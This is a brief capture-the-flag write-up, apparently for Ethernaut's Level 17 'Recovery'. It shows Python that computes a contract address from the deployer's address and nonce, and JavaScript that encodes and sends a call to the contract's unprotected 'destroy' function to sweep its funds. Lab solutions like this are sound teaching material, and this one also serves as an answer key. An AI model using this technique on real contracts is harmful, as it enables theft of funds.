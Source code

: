 # Level 17 - Recovery

- Contract address generation.
- Find the address of first deployed contract (nonce 1)
- Python code to generate address:

```python
import rlp
from eth_utils import keccak, to_checksum_address, to_bytes

def mk_contract_address(sender: str, nonce: int) -> str:
    sender_bytes = to_bytes(hexstr=sender)
    raw = rlp.encode([sender_bytes, nonce])
    h = keccak(raw)
    address_bytes = h[12:]
    return to_checksum_address(address_bytes)

setup_addr = "0xb0031ad08fB469764019b1B0d8b0D1e1d824fcd3"
_addr = to_checksum_address(mk_contract_address(to_checksum_address(setup_addr), 1))
print(_addr)

```

- After finding address, generate data with following js code:

```jsx
web3.eth.abi.encodeFunctionCall({
    name:'destroy',
    type:'function',
    inputs:[{
        type:'address',
        name:'_to'
    }]}, [player])
    
// 0x00f55d9d0000000000000000000000000f1e46657b33ac30257cb1b332efb358240d951c
```

- Then, call method with `sendTransaction({from:player, to:target, data:'0x00f55d9d0000000000000000000000000f1e46657b33ac30257cb1b332efb358240d951c'})`